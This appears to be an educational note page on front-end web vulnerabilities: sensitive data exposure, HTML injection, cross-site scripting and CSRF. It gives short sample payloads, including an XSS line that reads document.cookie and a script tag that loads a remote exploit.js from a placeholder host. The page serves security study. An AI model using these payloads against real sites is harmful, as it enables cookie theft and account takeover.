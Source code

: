 # 🌂 Front End Vulnerabilities

## Sensitive Data Exposure

[Sensitive Data Exposure](https://owasp.org/www-project-top-ten/2017/A3\_2017-Sensitive\_Data\_Exposure) refers to the availability of sensitive data in clear-text to the end-user.

It can be utilized to gain access to sensitive functionality (i.e., an admin panel), which may lead to compromising the entire server.

#### Example:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

And if we look at the page source:

```html
<form action="action_page.php" method="post">

    <div class="container">
        <label for="uname"><b>Username</b></label>
        <input type="text" required>

        <label for="psw"><b>Password</b></label>
        <input type="password" required>

        <!-- TODO: remove test credentials test:test -->

        <button type="submit">Login</button>
    </div>
</form>

</html>
```

Good to note that these human flaws are not very common but we could find other things such as test pages or directories, debugging parameters, or hidden functionality.

## HTML Injection

Another major aspect of front end security is validating and sanitizing accepted user input.

[HTML injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web\_Application\_Security\_Testing/11-Client-side\_Testing/03-Testing\_for\_HTML\_Injection) occurs when unfiltered user input is displayed on the page.

When a user has complete control of how their input will be displayed, they can submit `HTML` code, and the browser may display it as part of the page. This may include a malicious `HTML` code, like an external login form, which can be used to trick users into logging in while actually sending their login credentials to a malicious server to be collected for other attacks.

Let's say we have this simple input page:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

If there is no sanitizing and we input this malicious code:

```html
<style> body { background-image: url('https://academy.hackthebox.com/images/logo.svg'); } </style>
```

The website will look like this:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

## Cross-Site Scripting (XSS)

[Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/) attacks works by injecting `JavaScript` code to be executed on the client-side. Once we can execute code on the victim's machine, we can potentially gain access to the victim's account or even their machine.

here are the main types:

| Type            | Description                                                                                                                               |
| --------------- | ----------------------------------------------------------------------------------------------------------------------------------------- |
| `Reflected XSS` | Occurs when user input is displayed on the page after processing (e.g., search result or error message).                                  |
| `Stored XSS`    | Occurs when user input is stored in the back end database and then displayed upon retrieval (e.g., posts or comments).                    |
| `DOM XSS`       | Occurs when user input is directly shown in the browser and is written to an `HTML` DOM object (e.g., vulnerable username or page title). |

We saw earlier the HTML injection, from that input, we could've printed out the session cookie via a DOM based XSS:

```javascript
#"><img src=/ onerror=alert(document.cookie)>
```

<figure><img src="../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

## Cross-Site Request Forgery (CSRF)

&#x20;[Cross-Site Request Forgery (CSRF)](https://owasp.org/www-community/attacks/csrf) is caused by unfiltered user input and is used to perform certain queries, and `API` calls on a web application that the victim is currently authenticated to. This would allow the attacker to perform actions as the authenticated user.

A common `CSRF` attack to gain higher privileged access to a web application is to craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker.

Another way of exploiting this would be to instead of using `JavaScript` code that would return the session cookie, we would load a remote `.js` (`JavaScript`) file, as follows:

```html
"><script src=//www.example.com/exploit.js></script>
```
